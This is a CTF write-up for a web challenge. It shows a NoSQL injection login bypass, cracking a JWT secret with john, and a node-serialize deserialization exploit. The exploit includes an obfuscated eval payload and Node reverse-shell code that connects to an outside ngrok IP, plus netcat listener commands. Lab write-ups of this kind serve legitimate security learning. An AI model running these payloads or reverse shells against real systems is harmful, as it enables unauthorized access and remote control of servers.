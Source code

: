 # Description

Hello and welcome everyone to my WriteUp for the "Breakfast with Grandma" Challenge By the author @j3x for the event HACK TILL S'HOUR (Or PWN TILL S'HOUR for this year) Held By The Club of @Shellmates
I'd just just to point out that this is my first ever doing a WriteUp for a CTF challenge and since i'm kinda a new/noobie in this the CTF game So if it is too long or smth like that i apologize from now since i'm trying not only to write The Solution but as well as the thinking procedure that lead us to the Flag , So let's Go : 

### NoSQL injection
1. We Are Faced with a login page as shown in the Following image : 

![alt text](login.png)
![alt text](JSON-Credits.png)

After following around a bit with the debugger and Burp Suite we can see that the response that contains the credentials inputted in the form is returned through JSON Format (here i said it's definitely a NoSQL Injection since they are who use JSON , i did some testing to confirm is was node with Mongo in burp like this : )


![alt text](Node-error.png)

### So what is a `NoSQL` injection ?

NoSQL injection is a security weakness in a web application that uses a NoSQL database, can allow attackers to bypass authentication, exfiltrate sensitive data, tamper with data on the database, or even compromise the database and the underlying server Most NoSQL injection vulnerabilities occur because developers accept and process user inputs without properly sanitizing them

### We go back to our challenge

First i tried with admin credits Injection like this : 
`{"username":"admin","password":{"$ne": "x"}}`
Work then i changes it to this and we have a successful login (ofc we use Burp to send the request , u can also use ZAP or cURL but this is more simple ): 
`{"username":{"$ne": "x"},"password":{"$ne": "x"}}`

![alt text](Payload-NoSQLi.png) 

![alt text](SuccessLogin-Dashboard.png)

Once Logged In we don't have much to See and since the description Talked about cookies then it's probably a good idea to check them in the Storage Tab using developper tools (CTRL SHIFT C , or just right click and select it ) 
We then find a JWT Token let's decrypt it using JWT.io : We Find an used ID , iat (expiration time or smth lmao ) and an also an encodedData which contains a Base64 Coded Text : 
`
{
  "userId": "********************",
  "encodedData": "eyJ1c2VybmFtZSI6ImJvYmJ5IiwiYWdlIjo0LCJmYXZvdXJpdGVNZWFsIjoiQ2VyZWFscyIsIl8ybmRGYXZNZWFsIjoiQ29va2llcyJ9",
  "iat": 1712537034
}
`
decode it using base64 -d command in terminal (or just use a tool like CyberChef ) we find it's the same data showed in the dashboard 
`{"username":"bobby","age":4,"favouriteMeal":"Cereals","_2ndFavMeal":"Cookies"}`

Let's Find the JWT Signature password using our friend john (a tool to brute force passwords ) like this : 
john token.txt -w=/usr/share/wordlists/rockyou.txt (make sure to put ur JWT token in the txt file correctly : no spaces or anything else cause it may cause problems and not be found ) 
"""
$ john token.txt -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
shellmatexx      (?)     
1g 0:00:00:01 DONE (2024-04-08 01:52) 0.8928g/s 3408Kp/s 3408Kc/s 3408KC/s shikoni..sheenyboy1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
"""
The password is found : shellmatexx , this is gonna allow us to change the jwt as we which (only the base64 part , since the other ones are used for the session)

here we are bit stuck ig? let's take a look at the source code , after some good search we find a serialization/deserialization code , let's ask ChatGPT if it's vulnerable to RCE (Remote Code Execution ) , The answer Is YES 
Now we look for ready to use exploits for this case : i first found one which is the most commun/basic one let's test it : 
Source : https://www.exploit-db.com/exploits/45265
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
 let's take the rce field and place it in our JSON format in place of one of the fields and the encode this : 
 

{"username":"bobby","age":4,"favouriteMeal":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()","_2ndFavMeal":"Cookies"}

BAse64 : 
eyJ1c2VybmFtZSI6ImJvYmJ5IiwiYWdlIjo0LCJmYXZvdXJpdGVNZWFsIjoiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uICgpe3JlcXVpcmUoXCdjaGlsZF9wcm9jZXNzXCcpLmV4ZWMoXCdscyAvXCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30oKSIsIl8ybmRGYXZNZWFsIjoiQ29va2llcyJ9Cg==

and send it in out JWT token bu using Cyber Chef to encode it (dont forget the secret word )

![alt text](Encode-First-RCE-JWT.png)

This didnt work :

![alt text](First-RCE-Not-Working.png)

lets look for something else, after some digging up this article looked intresting as it had some resemblance to our challenge :
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

This Used some advance a bit technique to achieve Reverse Shell Using Eval 
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}

// CODE USED FOR THE REVERSE SHELL 

var net = require('net');
var spawn = require('child_process').spawn;
HOST="3.125.188.168"; // ngrok provided public IP ADD
PORT="14447";  // ngrok provided public PORT 
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);

This what we are gonna do : 
1-Encode the past code to Decimal (with comma as a seperator ) then put it inside the eval
2-put the eval and rest of the code in out Data's JSON format 
3-Following that we encode The Data's JSON To base64 and 
4-And last but not least put that in the JWT Token
Change the IP and Port (Use Ngrok for a public one and then forward it to your terminal )
in terminal : Sudo ngrok tcp 4444
in another terminal window : nc -lvp 4444
(for more details check this article : https://drxh3kr.medium.com/using-netcat-with-ngrok-ip-for-receiving-reverse-shell-25ba7a498aab)
and voila we have Reverse Shell : 
look around a bit and we find the flag in the root directory (/) and there u have it 


CAPTURE SHELLL ![alt text](Ngrok-RV-Flag.png)


Note : This was an Amazing and creative challenge for me , GG to the Author 


